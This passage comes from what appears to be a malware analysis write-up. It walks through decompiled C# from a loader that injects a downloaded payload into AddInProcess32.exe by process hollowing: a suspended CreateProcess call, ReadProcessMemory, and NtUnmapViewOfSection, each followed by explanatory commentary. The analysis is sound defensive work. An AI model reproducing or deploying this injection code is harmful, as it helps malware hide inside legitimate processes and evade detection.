 #### Tools Code Disassembly
- Since the code is big we will try to divide it in parts and try understand the overall flow of how the file downloaded is being executed.

```csharp
public static bool Ande(byte[] data, string path)
{
    int num = 1;
    checked
    {
        for (;;)
        {
            bool flag = Tools.HandleRun(path, string.Empty, data, true);
            if (flag)
            {
                break;
            }
            num++;
            if (num > 5)
            {
                goto Block_2;
            }
        }
        return true;
    }
    Block_2:
    return false;
}

```

&rarr; It takes two parameters **data** and **path** to the executable. The data is the malicious payload downloaded in previous step and the path is the AddInProcess32.exe. It tries to run the code for 5 times calling **HandleRun** function to execute the payload.
```cs
private static bool HandleRun(string path, string cmd, byte[] data, bool compatible)
{
    // Starts the target process and prepares to inject the payload
}
```
&rarr; This method does the heavy lifting by creating the process and manipulating its memory to inject the payload.
```cs
API.STARTUP_INFORMATION startup_INFORMATION = default(API.STARTUP_INFORMATION);
API.PROCESS_INFORMATION process_INFORMATION = default(API.PROCESS_INFORMATION);
// Creating the target process
if (!API.CreateProcess_API(path, text, IntPtr.Zero, IntPtr.Zero, false, 4U, IntPtr.Zero, null, ref startup_INFORMATION, ref process_INFORMATION))
{
    throw new Exception();
}
```
&rarr; This section creates a new Process and initializes **STARTUP_INFORMATION** and **PROCESS_INFORMATION** structures to manage the new process.
```cs
int num3 = array[41];
int num4 = 0;
int num5 = 0;
if (!API.ReadProcessMemory_API(process_INFORMATION.ProcessHandle, num3 + 8, ref num4, 4, ref num5))
{
    throw new Exception();
}
if (num2 == num4 && API.NtUnmapViewOfSection_API(process_INFORMATION.ProcessHandle, num4) != 0)
{
    throw new Exception();
```